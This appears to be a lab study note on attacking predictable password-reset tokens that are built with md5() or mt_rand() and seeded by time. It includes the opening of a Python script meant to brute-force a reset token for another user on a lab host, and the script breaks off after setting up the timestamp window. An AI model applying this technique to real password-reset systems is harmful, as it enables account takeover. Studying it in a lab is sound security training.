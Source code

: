 always check if any reset tokens being used as temp passwords can be reused 

higher chances that temp passwords are being generated with predictable algorithms like mt_rand(), md5(), etc. so make sure to test the algorithm's security by looking at captured tokens 

if we have a vulnerable app that generates tokens: 

![](Images/Pasted%20image%2020240221105320.png)

attempting a fake token you can get the error message: 

![](Images/Pasted%20image%2020240221105415.png)

then in the reset_token_time.py script you can brute force a valid token for another user "htbadmin": 

```python
from hashlib import md5
import requests
from sys import exit
import time
from datetime import datetime

url = "http://94.237.49.138:41571/question1/"

time_str = "2024-02-21 09:18:22pm"

# Convert the string to a datetime object
dt_object = datetime.strptime(time_str, '%Y-%m-%d %I:%M:%S%p')

# Convert the datetime object to epoch time in seconds
epoch_time_seconds = int(dt_object.timestamp())

# Convert epoch time to milliseconds
epoch_time_milliseconds = epoch_time_seconds * 1000

start_time = epoch_time_milliseconds - 1200
end_time = epoch_time_milliseconds + 1200
```